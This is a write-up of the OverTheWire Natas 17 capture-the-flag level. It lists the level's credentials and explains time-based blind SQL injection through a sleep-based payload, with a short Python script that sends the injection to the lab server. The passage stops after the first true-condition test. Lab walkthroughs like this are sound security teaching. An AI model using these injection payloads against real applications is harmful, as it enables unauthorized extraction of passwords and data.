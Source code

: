 
___
## Natas 17
Username: `natas17`

Password: `8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw`

Url: `http://natas17.natas.labs.overthewire.org/`

This challenge looks exactly the same as the `natas15` challenge. But we can quickly notice we have no output we inputing a username.

Looking at the source code we see why.

![](images/Pasted image 20210318140055.png)

The echo commands have been commented out.

We still have a SQL injection by looking at the query variable and the database still has a username and password column.

We can use Time based sqlinjection, instead of checking the output to recognize True or False statements we can add to our payload a `and sleep(2)` like so:
`natas18" and password like binary '%a%' and sleep(2);-- -` 

If `a` is in the password the statement will be -> 1 and 1 and 1 which equals 1 in boolean algebra thus the sleep will execute and we can see our response time will be over 2 seconds long (True statement)

But if `a` is not in the password the statement will be -> 1 and 0 and 1 which equals 0 thus the sleep will NOT execute and our response will be under 2 seconds (False statement).

Lets write a small script to test out true and false statements.

```py
import requests

url = "http://natas17.natas.labs.overthewire.org/index.php"

headers = { # Header requierd to access the challenge
	"Authorization":"Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw=="
}

data = {
	"username":'natas18" and 1=1 and sleep(5);-- -'
}

r = requests.post(url,data,headers=headers)
print("Response Time: " + str(r.elapsed.total_seconds()))

```

First i tried with `1=1` since i know it is true:

![](images/Pasted image 20210318141311.png)
